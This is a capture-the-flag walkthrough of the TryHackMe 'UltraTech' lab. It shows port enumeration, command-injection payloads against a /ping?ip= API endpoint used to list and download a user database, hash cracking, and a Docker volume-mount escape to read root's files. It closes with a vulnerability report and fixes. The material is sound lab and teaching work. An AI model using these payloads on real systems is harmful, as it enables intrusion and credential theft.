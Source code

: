 
## UltraTech
https://tryhackme.com/room/ultratech1
## It's enumeration time!

**1. Which software is using the port 8081?**
```
nmap -p- -sC -sV -O target_ip
```

`Node.js`

**2. Which other non-standard port is used?**

`31331`

**3. Which software using this port?**
`Apache`

**4. Which GNU/Linux distribution seems to be used?**

`Ubuntu`

**5. The software using the port 8081 is a REST api, how many of its routes are used by the web application?**

```
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.136.202:31331
```

*Found  `/js`*   .

*Checked with:*

```
curl http://10.10.136.202:31331/js/api.js
```

*Deduced:*

```
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
 return ${window.location.hostname}:8081
    }
    
    function checkAPIStatus() {
 const req = new XMLHttpRequest();
 try {
     const url = http://${getAPIURL()}/ping?ip=${window.location.hostname}
     req.open('GET', url, true);
     req.onload = function (e) {
  if (req.readyState === 4) {
      if (req.status === 200) {
   console.log('The api seems to be running')
      } else {
   console.error(req.statusText);
      }
  }
     };
     req.onerror = function (e) {
  console.error(xhr.statusText);
     };
     req.send(null);
 }
 catch (e) {
     console.error(e)
     console.log('API Error');
 }
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = http://${getAPIURL()}/auth;
    
})();
```

*Confirmed API routes:*

1. `/ping?ip=...`

2. `/auth`

`Answer: 2`


## Let the fun begin

**1. There is a database lying around, what is its filename?**

*Checked if the server sends ICMP requests (ping) to the specified IP:*

```
sudo tcpdump -i eth0 icmp
```

```
curl "http://target_ip:8081/ping?ip=my_ip%0Als"
```

Deduced list.

`Answer: utech.db.sqlite`

**2. What is the first user's password hash?**

*Downloaded the utech.db.sqlite.*

```
curl "http://target_ip:8081/ping?ip=my_ip%0Acat%20utech.db.sqlite" --output utech.db.sqlite
```
*Then:*
```
cat utech.db.sqlite
```

`f357a0c52799563c7c7b76c1e7543a32`

**3. What is the password associated with this hash?**

*Cracked using [CrackStation](https://crackstation.net).*

`n100906`


## The root of all evil

**What are the first 9 characters of the root user's private SSH key?**


*Conected ssh*.
```
ssh r00t@target_ip
```

Gained access through Docker:

```
docker images
docker run -v /:/mnt --rm -it bash
cd mnt
cd root
cat private.txt

```


```
docker run — start a new container
-v /:/mnt — mounts the host root (/) into the container at /mnt
--rm — removes the container automatically after exit
-i — leaves STDIN open (interactive mode)
-t — connects TTY (convenient terminal)
bash — base image with Bash shell
```
## Brief report

**Vulnerability:**
*Command Injection in REST API at:*

```
http://<IP>:8081/ping?ip=<user_input>
```


**Explanation**

*The `ip` parameter is not filtered and is directly substituted into the `ping` system command, which allows you to execute arbitrary commands on the server.*

**Gaining access**

*1. The utech.db.sqlite file was obtained via command injection.*
*2. The file contained a users table with password hashes.*
*3. One of the hashes was cracked, which gave access to the application or system.*
*4. Docker was spotted. Used:*

```
docker run -v /:/mnt --rm -it bash
```

*This allowed the host filesystem to be mounted inside the container and access to `/root/private.txt`.*

## Vulnerability level:

*Critical (full control over the system)
Possibility of escalation of rights via Docker (error in the configuration: no `--read-only`, `no-root`, and no restrictions on volume mounts)*


## Recommendations:
*Screen and validate user input.
Use an IP `allowlist`.
Restrict unsafe users from running Docker containers.
Disable the ability to mount the root file system `(/)` inside the container.*



## Well Done!!!

